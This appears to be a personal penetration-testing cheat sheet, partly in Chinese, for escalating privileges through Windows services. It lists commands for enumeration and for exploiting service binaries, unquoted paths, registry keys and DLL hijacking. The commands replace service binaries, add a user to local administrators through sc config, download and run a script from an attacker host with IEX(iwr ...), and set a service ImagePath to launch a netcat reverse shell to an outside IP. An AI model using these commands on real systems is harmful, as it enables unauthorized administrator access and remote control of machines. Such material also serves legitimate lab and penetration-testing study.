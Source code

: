 # Services Info
## General Check
```powershell
sc.exe qc {$service_name} # *_PATH_* || *_START_*
service info
sc create [servicename] binpath="c:\111.exe"

icacls
Get-ACL
Get-Service
get-service  -Id ..
get-service | ? {$_.DisplayName -like 'Druva*'}

# 非RDP下Cim可能会出错
Get-CimInstance
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
Get-CimInstance -ClassName win32_service | Select Name,State,PathName 
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'servicename'}  #查看服务的启动方式
#查找查找没有引号的服务
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """ # --> 最好用cmd执行

# 注册表中自动运行的二进制文件查找
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
## PowerUp
UnquotedService/ModifiableServiceBinary Check
```powershell
# PowerUp.ps1
Get-UnquotedService
# AbuseFunction 替换服务的二进制文件的模块，默认行为是创建一个名为john的新本地管理员，密码为Password123！
Get-ModifiableServiceFile
Install-ServiceBinary -Name 'mysql' 
```
## AccessChk
针对使用于Reg键值查询及权限查看等功能
通过组查看可以修改的服务二进制文件
```powershell
#Reg查找弱键值的服务
.\accesschk.exe /accepteula "<current_user>" -kvuqsw hklm\System\CurrentControlSet\services
#查看服务权限
.\accesschk.exe /accepteula -quvcw <speicify service>
.\accesschk.exe -qlc <service_name>

accesschk.exe -ucqv <Service_Name> #Check rights for different groups

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```
## SharpUp
针对使用服务的ACLs
服务的自由访问控制列表来查看权限`HKLM\SYSTEM\CurrentControlSet\Services\`
```powershell
.\SharpUp.exe audit
```
# Running Monitor Script on Target Host
```powershell
 IEX (iwr 'http://<attack_Ip>/procmon.ps1') 
```

## Procmon.ps1
```powershell
while($true)
{
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```
___
# Exploit
## Service *Binary* DACL Abuse
```powershell
sc.exe start windowsscheduler
Restart-Service mysql
net stop mysql
shutdown /r /t 0

# Replace
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
#Service ACL mod
icacls WService.exe /grant Everyone:F

```
## Service Path Abuse
-->[[Editable Service]]
[accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f

sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```
## Reg Key Abuse
```bash
#篡改键值
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

## Unquoted Service Path
Base on Service Path with blank
1. **check for unquoted**
```powershell
sc.exe qc "disk sorter enterprise" C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe" #AbuseFunction
```
2. find the **CUT OFF** service path
```powershell
C:\MyPrograms\Disk --> file Replace
move c:\{$payload_download_dir}\rev-svc2.exe c:\{$writable_path}\{$exploit_services}
```
***
### Abuse DLL File
#### Replace
```powershell
...
```
#### hijack DLL Path
[Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon): 分析DLL加载情况


```powershell
$env:
dir env:
```



| Path                                                              |                                Example |
| :---------------------------------------------------------------- | -------------------------------------: |
| The directory from which the application loaded.                  | (C:\\Users\\Steve\\Document\\some.dll) |
| The system directory.                                             |      (C:\\Windows\\System32\\some.dll) |
| The 16-bit system directory.                                      |        (C:\\Windows\\System\\some.dll) |
| The Windows directory.                                            |                (C:\\Windows\\some.dll) |
| The current directory.                                            |                                        |
| The directories that are listed in the PATH environment variable. |         (C:\\Windows\\system32 etc...) |
